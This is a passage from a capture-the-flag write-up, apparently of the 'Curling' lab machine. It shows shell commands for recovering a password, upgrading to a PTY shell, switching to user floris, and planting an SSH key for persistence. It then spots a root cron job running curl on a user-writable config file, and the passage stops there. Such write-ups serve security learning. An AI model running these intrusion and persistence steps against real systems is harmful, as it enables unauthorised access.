 Let's keep going.

```
root@ragingunicorn:~/Downloads# tar xvf password.tar
password.txt
root@ragingunicorn:~/Downloads# cat password.txt
5d<wdCbdZu)|hChXll
```

Finally!

We can `su` to user `floris` now and get the user flag.

```
python3 -c 'import pty;pty.spawn("/bin/sh")'
$ su -l floris
su -l floris
Password: 5d<wdCbdZu)|hChXll

floris@curling:~$ cat user.txt
cat user.txt
65dd1d...
floris@curling:~$
```

### Privesc

First, let's upload our ssh key so we don't have to rely on that meterpreter shell:

```
floris@curling:~$ mkdir .ssh
mkdir .ssh
floris@curling:~$ echo "ssh-rsa AAAAB...DhscPOtelvd root@ragingunicorn" > .ssh/authorized_keys
<cPOtelvd root@ragingunicorn" > .ssh/authorized_keys
```

In `admin-area` folder, there are two files with a timestamp that keeps refreshing every few minutes:

```
floris@curling:~/admin-area$ ls -la
total 12
drwxr-x--- 2 root   floris 4096 May 22 19:04 .
drwxr-xr-x 7 floris floris 4096 Oct 27 20:39 ..
-rw-rw---- 1 root   floris   25 Oct 27 20:40 input
-rw-rw---- 1 root   floris    0 Oct 27 20:40 report
floris@curling:~/admin-area$ date
Sat Oct 27 20:40:44 UTC 2018
```

There is probably a cron job running as root, let's confirm this by running a simple `ps` command in a bash loop:

```
floris@curling:~/admin-area$ while true; do ps waux | grep report | grep -v "grep --color"; done
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root      9225  0.0  0.0   4628   784 ?        Ss   20:44   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```